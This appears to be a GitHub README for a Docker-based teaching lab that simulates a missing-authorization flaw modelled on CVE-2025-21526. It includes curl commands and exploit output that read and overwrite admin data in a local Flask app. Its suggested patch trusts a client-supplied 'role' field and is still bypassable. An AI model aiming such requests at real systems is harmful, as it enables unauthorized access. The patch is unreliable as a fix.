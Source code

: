 
# CVE-2025-21526 Simulation Lab (Docker + Python)

This repository simulates a **CVE-like vulnerability** inspired by [CVE-2025-21526](https://nvd.nist.gov/vuln/detail/CVE-2025-21526), which allows **unauthorized users to read/write privileged data** due to **improper authorization** in Oracle Primavera P6 EPPM.

Here, we replicate a similar flaw in a simple Flask application to demonstrate how access control vulnerabilities work — and how to patch them.

## 🧠 Key Concepts

- Broken Access Control
- Unauthorized read/write access
- Exploitation with low-privileged user
- Ethical security testing in Docker

## 🧾 Features

- Flask web app simulating vulnerable endpoints
- Docker + Docker Compose support
- Python exploit script to demonstrate unauthorized access

## 📁 Project Structure

```
.
├── app.py               # Vulnerable Flask app
├── exploit.py           # Exploit script
├── Dockerfile           # Docker image definition
├── docker-compose.yml   # Orchestration
└── README.md            # You're here!
```

## 🚀 Getting Started

### 1️⃣ Prerequisites

- Docker & Docker Compose
- Python 3.x

### 2️⃣ Clone the Repository

```bash
git clone https://github.com/sonalvijit/cve.git
cd /cve/CVE-2025-21526
```

### 3️⃣ Build and Run the App

```bash
docker-compose up --build
```

App runs at: [http://localhost:5000](http://localhost:5000)

## 🧪 Exploitation

### Unauthorized Read

```bash
curl "http://localhost:5000/get-data?user=admin"
```

### Unauthorized Write

```bash
curl -X POST -d "user=admin&data=Hacked!" http://localhost:5000/update-data
```

### Or Use the Python Script

```bash
python3 exploit.py
```

Expected output:

```
[+] Attempting to read data for user: admin
Response: 200
{'role': 'admin', 'data': 'Confidential reports'}

[+] Attempting to update data for user: admin
Response: 200
Updated

[+] Attempting to read data for user: admin
Response: 200
{'role': 'admin', 'data': 'Hacked!'}
```

## 🛡️ Patching the Vulnerability (Optional)

To simulate a patch, add role validation before updating data in `app.py`:

```python
@app.route("/secure-update", methods=["POST"])
def secure_update():
    role = request.form.get("role")
    if role != "admin":
        return "Forbidden", 403
    # Update logic
```

## 📚 Reference

- CVE Link: [CVE-2025-21526](https://nvd.nist.gov/vuln/detail/CVE-2025-21526)
- CWE: [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)

## ⚠️ Disclaimer

This project is for **educational and ethical testing** purposes **only**. Do **not** use this code on any production or unauthorized systems.

